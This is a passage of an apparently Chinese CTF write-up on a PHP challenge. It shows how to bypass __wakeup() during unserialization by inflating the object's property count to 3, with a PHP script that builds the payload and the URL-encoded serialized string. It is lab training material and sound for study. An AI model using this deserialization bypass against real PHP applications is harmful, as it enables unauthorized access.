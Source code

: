 ```php
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

发现要让`username`为`admin`，`password`为`100`,但是在反序列化后在`__wakeup`时`username`会变为`guest`，所以在反序列化时需要绕过`__wakeup`

绕过`__wakeup`

常见的反序列化字符串为`O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}`

`"Name":2:`代表有`2`个变量，当我们更改数字大于`2`时，即可绕过`__wakeup()`

`payload`

```php
<?php

class Name{
    private $username = 'admin';
    private $password = 100;
}


$a = new Name();

echo serialize($a) . "<br>";
echo urlencode(serialize($a));
```

最后更改`2`为`3`即可绕过获取`flag`

最终`payload`

```
O%3A4%3A%22Name%22%3A2%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
```

## [ACTF2020 新生赛]BackupFile

